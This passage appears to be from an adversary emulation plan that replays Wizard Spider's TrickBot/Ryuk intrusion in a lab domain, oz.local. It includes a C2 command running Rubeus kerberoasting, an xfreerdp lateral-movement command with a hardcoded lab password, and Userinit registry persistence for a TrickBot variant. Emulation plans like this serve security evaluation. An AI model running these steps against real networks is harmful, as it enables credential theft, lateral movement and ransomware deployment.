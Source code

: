 ```bash
./evalsC2client.py --set-task TrickBot-Implant "rubeus.exe kerberoast /domain:oz.local"
```

### :microscope: Cited Intelligence

* <https://us-cert.cisa.gov/ncas/alerts/aa20-302a>
* <https://www.fireeye.com/blog/threat-research/2020/10/kegtap-and-singlemalt-with-a-ransomware-chaser.html>
* <https://thedfirreport.com/2020/10/08/ryuks-return/>
* <https://thedfirreport.com/2020/11/05/ryuk-speed-run-2-hours-to-ransom/>

<br>

## Step 7 - Lateral Movement to DC

:microphone: `Voice Track:`

In step 7 Wizard Spider RDP's into the domain controller as user vfleming.

Wizard Spider dowloads a TrickBot variant to the DC using PowerShell's `Invoke-WebRequest` command.

Wizard Spider then establishes registry persistence to execute Trickbot when vflemming logs in.

Lastly, Wizard Spider enumerates the domain using the `adfind` utility.

```
Compromised user info:

User:	vfleming@oz.local

System: 10.0.0.4 / wizard

File Write (Tribot EXE variant): %AppData%\uxtheme.exe

Registry Write:  HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\

Key: Userinit

Value: Userinit.exe, $env:AppData\uxtheme.exe
```

---

### ☣️ Procedures

:warning: Go back to your Toto RDP session and sign out: `Right-click Windows icon -> Shut down or sign out -> Sign out`

Rename your RDP terminal to "RDP to wizard"

RDP to wizard / 10.0.0.4.

```bash
# Wizard Spider has used RDP for lateral movement.[5][2][8]

xfreerdp +clipboard /u:oz\\vfleming /p:"q27VYN8xflPcYumbLMit" /v:10.0.0.4 /drive:X,wizard_spider/Resources/Ryuk/bin
```
